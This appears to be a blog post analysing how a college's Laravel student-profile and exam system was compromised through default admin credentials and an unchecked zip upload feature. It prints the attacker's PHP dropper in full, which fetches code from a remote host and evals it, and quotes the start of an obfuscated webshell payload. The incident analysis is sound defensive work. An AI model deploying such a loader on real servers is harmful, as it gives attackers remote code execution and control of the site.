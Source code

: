 +++
title = "How Deerwalk College's Doko was Hacked"
date = 2025-06-26
description = "Deerwalk College's Student Profile and Exam papers management system Doko was hacked by Indo hackers"
[taxonomies]
categories = ["tech"]
tags = ["deerwalk","cybersecurity"]
[extra]
lang = "en"
toc = true
+++

> TLDR: Insecure credentials and file upload vulnerability in the zip file parsing funtionality gives hackers RCE in the system. Which is then used to Deface the website.

# Context
A few week ago, Deerwalk college's student profile and exam paper management system [Doko](https://doko.dwit.edu.np) was hacked by Indonesian hackers and defaced to show a online casino slot platform. The DevOps team went into damage control mode and changes were made. The first thing we did was change the Policy of the security group of our Amazon EC2 instance to only allow connections from within the college network. We werent quite sure of how the hacker got in or how they managed to deface our application which was built with Laravel.


# Analysis
A few days later I was sent the `access` and `error` logs by the DevOps team to properly analyze the network traffic to figure out how they got in. I saw a Indobesian IP address logging in to our system. How did they get our credentials? Turns out we were using the username `admin` and the password of `password` when we were developing the application and never really got around to changing it. Now the hacker had access to the management/admin panel, great.

# RCE?

How did they get remote code execution on our system? As I was going through our uploads directory and was searching for a potential file upload vulnerability and there it was. A rogue `.php` file (`"Srijal Jaisi.php"`) with a real students name.

We had a "bulk upload" feature into our website where the admin could upload a zip with compressed images and the backend would unzip it and place it in a publicly indexable place (/uploads). However we did not have checks to ensure that the file uploaded was indeed an image file. Which led the hacker who already had access to upload a php file.

{{ figure(src="/img/dropper.png" alt="The Plan" via=" ") }}


# A deeper look

Looking into the `.php` stage 1 dropper file we see
```php
<?php
    $Url = "https://bujang.online/raw/AbSGSvJgKn";
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $Url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $output = curl_exec($ch);
    curl_close($ch);
    echo eval('?>'.$output);
   ?>
```
The dropper loads the malware from the `https://bujang.online/raw/AbSGSvJgKn` URL and then evals it. Looking at the content from `https://bujang.online/raw/AbSGSvJgKn`. We can see that its heavily obfusticated.

The payload starts with 

```php
<?php
/*   __________________________________________________
    |  Obfuscated by YAK Pro - Php Obfuscator  2.0.14  |
    |              on 2023-09-19 01:16:16              |
    |    GitHub: https://github.com/pk-fr/yakpro-po    |
    |__________________________________________________|
*/
 goto E1NcZ;
 ```

which tells us that they are using a open source php obfusticator called Yak Pro. The payload is over 1500 lines long and full of `goto` statements which makes it impossible to analyse it manually. First thing I did was "prettify" the file such that it's somewhat readable. Once it was readable, I was able to understand and research on some parts of the file. All the variable names were in Indonesian which was more evidence that the hacker was indeed from Indonesia.

Uploading the php file in VirusTotal led us to [this article](https://www.foregenix.com/blog/php-webshell-barner-detect-website-malware) from which we were now certain that this was a sophisticated full administrator access. This is how the hacker had been defacing Doko and when we removed all the static files from the server (images/documents) the hackers webshell access is removed and we no longer have issues.

# Conclusion
There was a LOT that could have been better from our side. For starters we did not change the insecure default credentials, which was a huge factor into how the hacker got in. In our code we did not have file validation and checks for the zip feature. We should have been a lot more careful especially since the app was built with php. We'll be deploying the new version of Doko on the first week of July. If you want to look into the file and research yourself then I've kept all the payloads in [this repository](https://github.com/aashu10sh/doko_hacked).

# Doko 3.0
Doko 3.0 was already in development when the current verson was hacked, this new doko(3.0) is built under the leadership of Krish Devkota with a much modern tech stack and security practices in mind and new doko should be out within the first week of July.
